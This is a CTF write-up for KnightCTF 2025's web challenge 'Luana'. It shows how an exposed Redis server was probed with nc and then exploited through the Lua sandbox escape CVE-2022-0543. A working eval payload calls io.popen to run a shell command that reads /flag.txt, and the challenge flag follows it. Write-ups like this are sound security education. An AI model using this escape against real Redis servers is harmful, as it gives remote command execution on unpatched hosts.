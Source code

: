 ```yaml
---
title: "Luana"
description: "Show me your skills. Read the /flag.txt"
pubDate: 2025-01-22
ctf: "KnightCTF 2025"
category: "web"
author: "sealldev"
section: "CTFs"
---
```


> Original Writeup on [seall.dev](https://seall.dev/posts/knightctf2025#luana)

We are given a webserver that notifies the service has started on port `6379`, looking into that port it is **Redis**. I'd heard of it before but never really used it. We are also told the flag is stored at `/flag.txt`.
> Redis is a source-available, in-memory storage, used as a distributed, in-memory key–value database, cache and message broker, with optional durability.

I start with some basic commands such as `set` and `get` through `nc`

```
$ nc server 6379
> set 0 1
> get 0
1
```

Looking into Redis on [HackTricks](https://book.hacktricks.wiki/en/network-services-pentesting/6379-pentesting-redis.html) I notice that it mentions a LUA Sandbox Escape that's usually patched.

Thinking of the title of the challenge **Lua**na I think I know where to look.

Looking at recent CVE's in Redis I find one that's a [Lua sandbox escape from 2022](https://ine.com/blog/cve-20220543-lua-sandbox-escape-in-redis) and make a payload according to the blog.

```
eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("cat /flag.txt", "r"); local res = f:read("*a"); f:close(); return res' 0
```

Flag: `KCTF{c0n6r475_b015_n1c3_c47ch}`

